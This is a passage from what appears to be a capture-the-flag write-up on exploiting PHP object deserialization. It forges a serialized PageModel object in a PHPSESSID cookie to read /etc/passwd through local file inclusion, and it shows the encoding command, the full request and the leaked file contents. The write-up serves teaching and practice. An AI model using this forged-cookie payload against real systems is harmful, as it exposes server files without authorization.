 From the decoded output, the cookie can be identified as a serialized PHP object.

#### Understanding PHP Serialized Objects

The O at the beginning of the output represents “Object”, and the number 9 represents the number of characters that comprise the name of the object (in this case it is “PageModel” which is nine characters in length). The letter “s” represents string, and it refers to the type of the data that it precedes.

LFI
---

Following the modification of /www/index.html to /etc/passwd, the server’s response changes:

{% highlight bash %}
└──╼ $echo -n '''O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}'''|base64  
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=
{% endhighlight %}

Note that the data s:15 was modified to s:11 because /etc/passwd is 11 characters long

Request:

{% highlight bash %}
GET / HTTP/1.1Host: 167.99.88.212:30746  
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
DNT: 1  
Connection: close  
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30=  
Upgrade-Insecure-Requests: 1
{% endhighlight %}

Reponse:

{% highlight bash %}
HTTP/1.1 200 OK  
  
Server: nginx  
Date: Sat, 29 May 2021 21:25:41 GMT  
Content-Type: text/html; charset=UTF-8  
Connection: close  
X-Powered-By: PHP/7.4.15  
Content-Length: 1262  
  
root:x:0:0:root:/root:/bin/ash  
bin:x:1:1:bin:/bin:/sbin/nologin  
daemon:x:2:2:daemon:/sbin:/sbin/nologin  
adm:x:3:4:adm:/var/adm:/sbin/nologin  
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin  
sync:x:5:0:sync:/sbin:/bin/sync  
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown  
halt:x:7:0:halt:/sbin:/sbin/halt  
mail:x:8:12:mail:/var/mail:/sbin/nologin  
news:x:9:13:news:/usr/lib/news:/sbin/nologin  
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin  
operator:x:11:0:operator:/root:/sbin/nologin  
man:x:13:15:man:/usr/man:/sbin/nologin  
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin  
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin  
ftp:x:21:21::/var/lib/ftp:/sbin/nologin  
sshd:x:22:22:sshd:/dev/null:/sbin/nologin  
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin  
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin  
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin  
games:x:35:35:games:/usr/games:/sbin/nologin  